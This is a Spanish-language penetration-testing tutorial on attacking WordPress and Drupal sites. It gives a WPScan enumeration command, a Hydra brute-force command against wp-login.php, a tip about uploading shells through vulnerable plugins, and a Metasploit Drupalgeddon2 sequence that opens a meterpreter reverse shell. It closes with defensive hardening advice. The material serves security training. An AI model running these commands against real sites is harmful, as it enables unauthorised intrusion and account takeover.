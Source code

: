 
# 🛠️ Hacking en Entornos CMS (WordPress y Drupal)

Los CMS (Content Management Systems) como WordPress y Drupal son objetivos frecuentes en pruebas de penetración debido a su popularidad y extensibilidad. Este módulo cubre técnicas de reconocimiento, explotación y post-explotación en estos entornos.

---

## 🧱 Hacking en Entornos WordPress – Parte 1

### 🔍 Enumeración con WPScan:
```bash
wpscan --url http://target.com --enumerate u,vp,vt,tt
```

Esto permite obtener:

- Usuarios del sistema
- Plugins instalados
- Temas activos
- Versiones con vulnerabilidades conocidas

---

## 🚪 Hacking en Entornos WordPress – Parte 2

### 🔧 Explotación:

- Plugins vulnerables: busca exploits específicos en Exploit-DB.
- Panel de login: fuerza bruta con Hydra:
```bash
hydra -l admin -P rockyou.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=error"
```

- Upload maliciosos: sube shells si el plugin/tema lo permite.

---

## 🧱 Hacking en Entornos Drupal – Parte 1

### 🔎 Enumeración:

```bash
droopescan scan drupal -u http://target.com
```

- Detecta módulos vulnerables
- Enumera versiones
- Identifica temas expuestos

---

## 🧨 Hacking en Entornos Drupal – Parte 2

### 📌 Explotación conocida (ej. Drupalgeddon2):

```bash
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS http://target.com
set TARGETURI /
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <tu_ip>
set LPORT 4444
run
```

> 💡 Asegúrate de que el objetivo sea vulnerable antes de lanzar este tipo de exploit.

---

📌 Buenas prácticas:

- Revisa los CVE recientes en plugins o módulos.
- Usa contraseñas complejas y 2FA en producción.
- Mantén los CMS y extensiones siempre actualizados.
- Restringe el acceso al panel de administración (IP o VPN).

---

📚 Recursos útiles:

- https://wpscan.com/
- https://www.drupal.org/security
- https://github.com/droope/droopescan
- https://www.exploit-db.com/

---

💡 “Donde hay un plugin, hay una posibilidad.”
